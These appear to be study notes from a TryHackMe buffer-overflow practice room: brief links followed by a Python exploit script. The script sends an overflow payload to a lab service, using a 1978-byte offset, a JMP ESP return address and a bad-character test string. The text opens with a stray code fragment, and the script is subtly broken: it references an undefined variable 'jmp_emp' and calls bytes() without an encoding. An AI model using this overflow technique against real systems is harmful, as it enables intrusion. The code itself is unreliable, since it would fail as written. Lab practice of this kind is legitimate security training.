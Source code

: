 ```python
)	
```

## Encoding, Packing Bytes and Strings
https://tryhackme.com/room/bufferoverflowprep
https://docs.python.org/3/library/struct.html
https://docs.pwntools.com/en/stable/

There is alot here:
```python
#!/usr/bin/python3
import socket
import struct
import sys

# stdout in bytes:
sys.stdout.buffer.write(bytes('a string'))


def customp32(data):
#struct.pack(">I", data) # big endian
#struct.pack("<I", data) # little endian
    return struct.pack("<I", data)

host, port = "10.10.61.109", 1337

all_chars = bytearray(range(1,256))
# instead of:
#for x in range(1, 256):
#  print("\\x" + "{:02x}".format(x), end='')
#print()

bad_chars = [
        b"\x07",
        b"\x2d",
        b"\x2e",
        b"\xa0",
        ]
# Add bad char to bad_chars as we discover them
for bad_char in bad_chars:
    all_chars = all_chars.replace(bad_char, b"")

cmd = b"OVERFLOW1 "
pattern_length = 2000 # Documentation and keep for length retention
offset = 1978
new_eip = b"BBBB"
jmp_esp = customp32(0x625011AF) # must be the correct endianness

payload = b"".join([
            cmd,
            b"A" * offset,
            jmp_emp, # replaced new_eip
            all_chars,
            b"C" *  (pattern_length - len(new_eip) - offset - len(all_chars)),
        ])

with socket.socket() as s:
    s.connect((host,port))
    s.send(payload)

```
